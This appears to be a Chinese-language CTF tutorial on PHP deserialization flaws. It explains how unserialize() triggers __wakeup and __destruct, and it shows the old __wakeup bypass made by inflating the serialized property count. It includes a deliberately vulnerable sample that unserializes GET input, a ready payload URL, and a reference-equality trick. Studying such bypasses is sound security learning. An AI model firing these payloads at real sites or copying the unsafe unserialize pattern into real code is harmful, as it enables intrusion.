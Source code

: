 PHP unserialize() 后会导致 __wakeup() 或 __destruct() 的直接调用，中间无需其他过程。因此最理想的情况就是一些漏洞/危害代码在 __wakeup() 或 __destruct() 中。

## __wakeup 函数绕过

PHP 有个 Bug，触发该漏洞的PHP版本为PHP5小于5.6.25或PHP7小于7.0.10，该漏洞可以简要的概括为：当序列化字符串中表示对象个数的值大于真实的属性个数时会跳过 __wakeup 函数的执行，例如：

```php
<?php
class xctf
{
    public $flag = "111";
 
    public function __wakeup()
    {
        exit('bad requests');
    }
}
//echo serialize(new xctf());
echo unserialize($_GET['code']);
echo "flag{****}";
?>
```

使用这个 payload 绕过 __wakeup 函数

```powershell
# O:4:"xctf":1:{s:4:"flag";s:3:"111";}
http://www.example.com/index.php?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```

在字符串中，前面的数字代表的是后面字符串中字符的个数，如果数字与字符个数不匹配的话，就会报错，因此将1改成2就会产生报错，导致不会去执行 __wakeup 函数，从而绕过该函数。

## 变量可以用引用

可以通过将变量的值存储为另外一个变量的地址，类似于 C 语言中的引用。

```php
class just4fun 
{ 
    var $enter; 
    var $secret; 
} 

$a = new just4fun();
$a->secret = "123";
// 这里的 & 跟 C 语言一样，是取 $a->secret 值的地址赋给 $a->enter
$a->enter = &$a->secret;

$o = unserialize(serialize($a));

if ($o) { 
    $o->secret = "xxxxxxx";
    // 因为 $o->enter 存储的是 $o->secret 的值的地址，因此比较的时候相等的
    if ($o->secret === $o->enter) 
        echo "Congratulation! Here is my Key: " . $o->secret; 
}
```
